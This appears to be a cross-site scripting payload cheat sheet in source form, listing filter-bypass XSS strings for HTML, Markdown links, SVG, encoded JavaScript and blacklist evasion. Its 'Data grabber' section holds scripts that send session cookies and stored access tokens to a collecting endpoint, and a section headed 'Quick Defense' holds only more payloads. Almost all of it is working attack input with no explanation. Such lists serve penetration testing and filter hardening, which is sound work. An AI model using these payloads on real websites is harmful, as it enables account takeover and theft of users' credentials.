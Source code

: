 ```html
<noscript><p title="</noscript><img src=x onerror=alert(document.domain)>">
" onfocus="alert(1)" autofocus="
''"--><img src=x onODYSsyi=1 onerror=alert(document.cookie)>
"'--><img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>

# XSS in Markdown
[a](javascript:prompt(document.cookie))
[a](j a v a s c r i p t:prompt(document.cookie))
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[a](javascript:window.onerror=alert;throw%201)

# XSS in SVG (short)
<svg xmlns='http://www.w3.org/2000/svg' onload='alert(document.domain)'/>
<svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>
<svg><foreignObject><![CDATA[</foreignObject><script>alert(2)</script>]]></svg>
<svg><title><![CDATA[</title><script>alert(3)</script>]]></svg>

# Bypass word blacklist with code evaluation
eval('ale'+'rt(0)');
Function('ale'+'rt(1)')();
new Function`alert`6``;
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Set.constructor('ale'+'rt(13)')();
Set.constructor`alert(14)```;

# Data grabber for XSS
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
<script>new Image().src='http://localhost/cookie.php?c='+document.cookie;</script>
<script>new Image().src='http://localhost/cookie.php?c='+localStorage.getItem('access_token');</script>



# Quick Defense:
<input type="search" onsearch="aler\\\\u0074(1)">
<details ontoggle="aler\\\\u0074(1)">

# IMG_error
<img onerror="location='javascript:=lert(1)'" src="x">
<img onerror="location='javascript:%61lert(1)'" src="x">
<img onerror="location='javascript:\\x2561lert(1)'" src="x">
<img onerror="location='javascript:\\x255Cu0061lert(1)'" src="x" >

# Unicode + HTML
<svg><script>&#x5c;&#x75;&#x30;&#x30;&#x36;&#x31;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x63;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x35;&#x5c;&#x75;&#x30;&#x30;&#x37;&#x32;&#x5c;&#x75;&#x30;&#x30;&#x37;&#x34;(1)</script></svg>

# URL
<a href="javascript:x='%27-alert(1)-%27';">XSS</a>

# Hex
<script>eval('\\\\x61lert(1)')</script>

# Only lowercase block
<sCRipT>alert(1)</sCRipT>

# Break regex
<script>%0aalert(1)</script>

```